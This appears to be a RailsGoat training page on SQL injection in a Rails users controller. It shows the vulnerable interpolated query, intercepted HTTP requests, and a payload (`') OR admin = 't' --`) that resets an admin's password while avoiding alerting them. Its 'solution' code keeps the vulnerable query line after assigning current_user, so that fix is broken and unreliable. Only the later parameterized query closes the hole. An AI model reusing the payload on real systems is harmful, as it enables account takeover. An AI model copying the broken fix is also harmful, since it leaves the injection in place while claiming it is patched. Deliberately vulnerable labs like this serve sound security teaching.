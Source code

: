 # Description

Injection flaws, such as SQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing unauthorized data.

# Bug

This example of SQL Injection also happens to be a form of Insecure Direct Object Reference since it uses user-supplied input to determine the user's profile to update. However, we will discuss the SQL query being used and why it is vulnerable.

Within app/controllers/users_controller.rb

```ruby
  def update
    message = false
    # VULNERABLE CODE, ON THE NEXT LINE (WHERE STATEMENT)
    user = User.where("user_id = '#{params[:user][:user_id]}'").first
    if user
      user.skip_user_id_assign = true
      user.skip_hash_password = true
      user.update_attributes(user_params_without_password)
      if !(params[:user][:password].empty?) && (params[:user][:password] == params[:user][:password_confirmation])
        user.skip_hash_password = false
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
        format.json { render :json => {:msg => message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(:user_id => current_user.user_id)
    end
  end
```

#Solution

### SQL Injection - ATTACK

You will need to use an intercepting proxy or otherwise modify the request prior to it being received by the application. Browse to account_settings (top right, drop-down). Once at the account settings page, type in passwords, and click submit. Now modify the request from:

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 294
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    
    utf8=✓&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5&user[email]=ken@metacorp.com&user[first_name]=Ken&user[last_name]=Johnson&user[password]=testtest&user[password_confirmation]=testtest

Now we will inject some SQL Query syntax that will return the first result of a query that looks for users that have an admin attribute that is true. So essentially, instead of looking up the user whose data we will change by our user ID, we tell the database to return the first admin and update their data. In this instance, we are changing admin@metacorp.com's password to testtest. We can later login as that user. Granted, we could just change the user_id to 1 and do the same thing, and there are other ways to exploit this weakness but this is a clear-cut example of SQL Injection. **It is important to note that we have omitted the email, first, and last name parameters as a duplicate email address will cause errors. Additionally, we do not wish to change the admin's first and last name as this would alert the admin to the "hack"**.

    POST /users/5.json HTTP/1.1
    Host: railsgoat.dev
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:19.0) Gecko/20100101 Firefox/19.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Referer: http://railsgoat.dev/users/5/account_settings
    Content-Length: 208
    Cookie: _railsgoat_session=[redacted]
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache

    utf8=✓&_method=put&authenticity_token=GXhLKKhfBXdFx5i6iqHEd5E32Kebn1+G35eA87RW1tU=&user[user_id]=5') OR admin = 't' --'")&user[password]=testtest1&user[password_confirmation]=testtest1

### SQL Injection - SOLUTION

In this instance, the more secure route would be to reference the current_user object versus pulling from the database manually, using POST parameters provided by the user.

```ruby
  def update
    message = false
    user = current_user
    user = User.where("user_id = '#{params[:user][:user_id]}'").first
    if user
      user.skip_user_id_assign = true
      user.skip_hash_password = true
      user.update_attributes(user_params_without_password)
      if !(params[:user][:password].empty?) && (params[:user][:password] == params[:user][:password_confirmation])
        user.skip_hash_password = false
        user.password = params[:user][:password]
      end
      message = true if user.save!
      respond_to do |format|
        format.html { redirect_to user_account_settings_path(:user_id => current_user.user_id) }
        format.json { render :json => {:msg => message ? "success" : "false "} }
      end
    else
      flash[:error] = "Could not update user!"
      redirect_to user_account_settings_path(:user_id => current_user.user_id)
    end
  end
```

...However, since we are discussing fixing vulnerable SQL queries, let's discuss parameterized queries. Parameterized queries separate the SQL Query from the dynamic and often untrusted data. You could replace the string interpolated value with the following query and effectively separate the query from untrusted data:

```ruby
user = User.find(:first, :conditions => ["user_id = ?", params[:user][:user_id]])
```

#Hint

I wonder who else's account needs updating?